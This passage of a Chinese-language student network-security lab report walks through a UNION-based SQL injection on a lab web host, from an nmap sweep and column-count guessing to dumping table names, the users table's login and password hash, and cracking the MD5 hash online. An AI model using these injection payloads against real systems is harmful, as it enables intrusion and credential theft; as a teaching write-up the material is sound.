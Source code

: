 ```nmap -sP 192.168.68.0/24```确认受害者主机在攻击者主机可攻击范围内
![17](/Users/cookie/Documents/GitHub/2018-NS-Public-SunnyCcc/ns-0x07/17.jpg)

![18](/Users/cookie/Documents/GitHub/2018-NS-Public-SunnyCcc/ns-0x07/18.jpg)

### 4.2 利用UNION关键字进行SQL注入

#### 4.2.1 猜测数据库UNION数

从UNION=1开始进行猜测：```http://192.168.68.3/cat.php?id=1%20UNION%20SELECT%201```

![19](/Users/cookie/Documents/GitHub/2018-NS-Public-SunnyCcc/ns-0x07/19.jpg)

依次猜测UNION=2，3……发现当UNION=4的时候有图片显示，且出现了之前没有出现的picture：2，**我们可以将后续查找中的输出内容放在这个位置。**；当UNION=5的时候没有图片显示。

![20](/Users/cookie/Documents/GitHub/2018-NS-Public-SunnyCcc/ns-0x07/20.jpg)

![23](/Users/cookie/Documents/GitHub/2018-NS-Public-SunnyCcc/ns-0x07/23.jpg)

**综上，数据库UNION=4**

#### 4.2.2 替换列值

在3.2.1中，当我们猜测列值的时候，发现UNION=4时，多了picture：2部分，所以我们进一步推测第二列可以利用，作为SQL注入点。

1）查看版本信息```http://192.168.68.3/cat.php?id=1 UNION SELECT 1,@@version,3,4```

![24](/Users/cookie/Documents/GitHub/2018-NS-Public-SunnyCcc/ns-0x07/24.jpg)

2）查看当前用户信息```http://192.168.68.3/cat.php?id=1 UNION SELECT 1,current_user(),3,4```

![25](/Users/cookie/Documents/GitHub/2018-NS-Public-SunnyCcc/ns-0x07/25.jpg)

3）查看数据库信息```http://192.168.68.3/cat.php?id=1 UNION SELECT 1,database(),3,4```

![26](/Users/cookie/Documents/GitHub/2018-NS-Public-SunnyCcc/ns-0x07/26.jpg)

4）查看所有表的列表```http://192.168.68.3/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables```

![27](/Users/cookie/Documents/GitHub/2018-NS-Public-SunnyCcc/ns-0x07/27.jpg)

5）查看所有列的列表	```http://192.168.68.3/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns```

![32](/Users/cookie/Documents/GitHub/2018-NS-Public-SunnyCcc/ns-0x07/32.jpg)

6）连接表和列。在user表中看到有用户和密码列。```http://192.168.68.3/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns```

![33](/Users/cookie/Documents/GitHub/2018-NS-Public-SunnyCcc/ns-0x07/33.jpg)

#### 4.2.3 破解管理员登录密码

1. 获取管理员登录密码 ```192.168.68.3/cat.php?id=0 UNION SELECT 1,concat(id,':',login,':',password),3,4 FROM users```

![34](/Users/cookie/Documents/GitHub/2018-NS-Public-SunnyCcc/ns-0x07/34.jpg)

2. 网页在线破解 搜索 ```MD5 8efe310f9ab3efeae8d410a8e0166eb2```

![35](/Users/cookie/Documents/GitHub/2018-NS-Public-SunnyCcc/ns-0x07/35.jpg)

```
